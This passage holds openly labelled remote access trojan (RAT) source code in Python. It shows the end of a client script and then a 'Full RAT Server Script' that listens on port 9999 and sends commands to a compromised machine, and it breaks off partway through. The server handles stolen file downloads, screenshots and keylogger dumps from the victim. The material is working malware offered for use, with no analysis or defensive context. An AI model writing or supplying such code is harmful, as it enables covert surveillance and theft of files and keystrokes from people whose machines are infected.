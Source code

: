 ```python
        else:
            reliable_send(s, b'Unknown command')

    s.close()

if __name__ == '__main__':
    client()
```

---

### Full RAT Server Script (Python)

```python
import socket
import struct

def reliable_send(s, data):
    length = struct.pack('>I', len(data))
    s.sendall(length + data)

def reliable_recv(s):
    raw_len = recvall(s, 4)
    if not raw_len:
        return None
    length = struct.unpack('>I', raw_len)[0]
    return recvall(s, length)

def recvall(s, n):
    data = b''
    while len(data) < n:
        packet = s.recv(n - len(data))
        if not packet:
            return None
        data += packet
    return data

def server():
    host = '0.0.0.0'
    port = 9999

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(5)
    print(f"Listening on {host}:{port}...")

    conn, addr = s.accept()
    print(f"Connection from {addr}")

    while True:
        command = input("Enter command: ")
        if command.strip() == '':
            continue
        reliable_send(conn, command.encode())
        if command == 'exit':
            break

        if command.startswith('download ') or command == 'screenshot' or command == 'keylog_dump':
            data = reliable_recv(conn)
            if data is None:
                print("Connection lost")
                break
            if command.startswith('download '):
                filename = command[9:]
```